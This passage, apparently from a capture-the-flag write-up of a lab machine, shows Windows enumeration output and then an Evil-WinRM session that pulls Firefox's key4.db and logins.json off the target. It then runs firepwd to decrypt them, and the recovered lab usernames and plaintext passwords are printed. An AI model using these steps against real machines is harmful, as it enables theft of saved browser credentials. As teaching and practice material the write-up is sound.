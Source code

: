 ```bash
    LAPS Enabled: 1
    LAPS Admin Account Name: 
    LAPS Password Complexity: 4
    LAPS Password Length: 14
    LAPS Expiration Protection Enabled: 1

...[snip]...

Looking for Firefox DBs
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
Run SharpWeb (https://github.com/djhohnstein/SharpWeb)

...[snip]...
```

So, **LAPS** is enabled and we have a Firefox database which may contain credentials. We tried the suggested tool, [SharpWeb](https://github.com/djhohnstein/SharpWeb), but it did not work.

We found another tool to do the job, [firepwd](https://github.com/lclevy/firepwd), but we need to download some files locally.

```bash
*Evil-WinRM* PS C:\Users\nikk37\Documents> cd C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\
*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> download key4.db
Info: Downloading key4.db to ./key4.db
                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> download logins.json
Info: Downloading logins.json to ./logins.json
                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release>
```

Now, we just have to put these file in the same directory as the tool and recover the credentials.

```bash
$ python3 firepwd.py

...[snip]...

https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```
